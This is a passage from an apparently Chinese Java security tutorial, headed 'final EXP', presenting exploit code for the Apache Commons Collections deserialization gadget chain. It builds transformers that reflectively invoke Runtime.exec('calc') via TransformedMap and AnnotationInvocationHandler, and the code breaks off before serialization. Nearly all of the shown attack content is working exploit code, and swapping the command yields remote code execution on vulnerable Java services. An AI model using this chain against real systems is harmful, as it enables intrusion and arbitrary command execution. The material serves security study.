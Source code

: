 ![22](/img/JavaSecurity/41b32482cc016a70835612e8f877317c_MD5.png)


## 最终EXP

```java
package org.example;  
  
import java.io.*;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
public class Demo {  
    public static void main(String[] args)throws Exception {  
  
        Transformer[] transformers= new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})  
        };  
        Transformer chainedTransformer = new ChainedTransformer(transformers);  
  
        HashMap<Object,Object> map = new HashMap<>();  
        map.put("value","value");  
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);  
  
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor annotationInvocationHdConstructor =  c.getDeclaredConstructor(new Class[]{Class.class,Map.class});  //获取类的构造方法  
        annotationInvocationHdConstructor.setAccessible(true); //保证可以访问  
        Object o = annotationInvocationHdConstructor.newInstance(Target.class, transformedMap);  
```